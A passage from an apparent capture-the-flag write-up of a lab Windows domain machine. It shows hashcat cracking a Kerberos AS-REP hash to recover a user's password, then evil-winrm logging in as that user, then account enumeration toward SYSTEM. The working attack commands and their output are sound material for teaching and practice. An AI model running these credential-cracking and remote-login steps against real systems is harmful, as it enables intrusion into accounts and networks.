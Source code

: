

### Crack Hash

Now `hashcat` can crack this pretty quickly:



    root@kali# hashcat -m 18200 jorden.hash /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $krb5asrep$23$jorden@MEGACORP.LOCAL:c6e1735f291d71135278005a61a8e78e$771ee4486ddcf18fdf2ee216bf2e66cff076ef6907a1154f3458c7e5ef2f65038263f9ce459cfa964ad0057b53676f4c326e5d380910e
    48d9fee2c585819d70cea63442b035359ef6f9cb3a8cfdfffe981c8e7c0aaaf913f9bf8d8df96147b30f15b71e5a9541dcdfcfef20670edfb46b2973917d661fadcc48df2aa9f72c1586a1bbcbff4420f89c4360125f1a9a23
    12466f69201ed5035db7952bb6eaa3cec0edf0888e958e0180333ba11fde7e0448836d87fe3090152980a95c1e6c1a151a83603f1380ea7c306cfbd74fdd19a507c36c1d38db5c7231e9fee7bdbe73ad1dedac61c2b1e9d3ef
    2e36834206c2130:rainforest786
    ...[snip]...



The password is rainforest786.

### WinRM

The creds work to get a shell as jorden:



    root@kali# evil-winrm -u "MEGACORP\jorden" -p rainforest786 -i 10.10.10.179

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\jorden\Documents> whoami
    megacorp\jorden    



## Shell as SYSTEM

### Enumeration

jorden is in the Server Operators group:



    *Evil-WinRM* PS C:\programdata> net user jorden
    User name                    jorden
    Full Name                    Jorden Mclean
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            1/9/2020 5:48:17 PM
    Password expires             Never
    Password changeable          1/10/2020 5:48:17 PM
    Password required            Yes
    User may change password     Yes
